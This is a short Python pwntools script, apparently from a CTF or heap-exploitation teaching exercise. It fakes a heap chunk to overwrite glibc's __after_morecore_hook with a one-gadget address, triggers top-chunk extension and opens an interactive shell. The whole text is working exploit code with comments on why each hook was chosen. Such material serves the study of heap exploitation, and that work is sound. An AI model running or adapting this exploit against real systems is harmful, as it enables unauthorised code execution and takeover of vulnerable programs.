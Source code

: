 ```python
distance = (libc.sym.__after_morecore_hook - 0x20) - elf.sym.user
amend_age(distance + 0xa1) # Leave just enough space in the remainder to request a small chunk overlapping the hook.


# =-=-=- OVERWRITE HOOK -=-=-=

# The next request is serviced by our fake chunk.
# Request a large chunk to bridge the gap between the fake chunk and the hook.
# We can't target the free hook this time because we can only write 8 bytes into chunk user data
# rather than 16, meaning we can't make up the gap between the start of a chunk overlapping
# the free hook and the free hook itself.
# The malloc hook gets clobbered too early by inline metadata, and we don't have enough control
# over __morecore arguments, nor does it satisfy any one-gadget constraints.
# However, we can trigger the after_morecore hook and it satisfies a one-gadget constraint.
malloc(distance, b"H"*8)

# The next request is serviced by the fake chunk's remainder and overlaps the after_morecore hook.
# Use it to overwrite the after_morecore hook with the address of a one-gadget.
malloc(0x88, pack(libc.address + 0x3ff5e)) # rax == NULL

# Request enough space to trigger top chunk extension. Remember that there's a 0x60000-sized chunk in
# the unsortedbin at this point so we need to request more than that, but no more than the mmap threshold.
malloc(0x60008, b"")

# =============================================================================

io.interactive()

```
